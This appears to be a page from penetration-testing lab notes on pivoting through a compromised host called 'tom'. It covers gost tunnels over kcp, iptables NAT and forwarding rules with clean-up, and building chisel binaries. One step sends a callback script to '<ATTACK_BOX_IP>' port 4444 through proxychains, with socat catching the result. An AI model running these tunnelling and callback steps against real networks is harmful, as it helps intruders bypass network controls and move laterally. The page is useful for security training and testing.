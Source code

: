 #### Prepare iptables rules and forwarding

Now that we have our tun interface, we have to set up our iptables and routing as we did for the ssh tun interface.

```
ssh root@tom 'sysctl -w net.ipv4.ip_forward=1'
ssh root@tom 'iptables -t nat -I POSTROUTING -s 192.168.123.0/24 ! -o tun0 -j MASQUERADE'
ssh root@tom "iptables -I FORWARD --src 192.168.123.2 -j ACCEPT"
```


#### Clean up

```
[[ gost~Kali ]]
sudo pkill gost
ssh root@tom 'pkill gost'
ssh root@tom 'iptables -t nat -D POSTROUTING -s 192.168.123.0/24 ! -o tun0 -j MASQUERADE'
ssh root@tom "iptables -D FORWARD --src 192.168.123.2 -j ACCEPT"
```

### kcp socks

Gost offers the ability to tunnel traffic through some interesting channels like [kcp](https://github.com/skywind3000/kcp/blob/master/README.en.md), QUIC (quic), shadowsocks (ss), web sockets (wss), and others.


```
ssh root@tom "./gost -L socks5+kcp://:8443" &
lsof -i tcp:9050
./gost -L=:9050 -F=socks5+kcp://tom:8443 &
lsof -i tcp:9050
lsof -i tcp:4444
	socat -u tcp-listen:4444,reuseaddr,fork open:/tmp/PROOF,create,append &
cat /tmp/PROOF
proxychains -q callMe.sh linux 80 <ATTACK_BOX_IP> 4444 tcp
cat /tmp/PROOF
```

#### Clean up

```
pkill gost
ssh root@tom 'pkill gost'
```

### Chisel

#### Build and push your binaries

```
[[ Chisel~Compiling ]]*
cd tools/chisel
go mod vendor
go build -ldflags "-s -w"
env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w"
scp chisel root@tom:
ssh root@tom chmod +x ./chisel
```
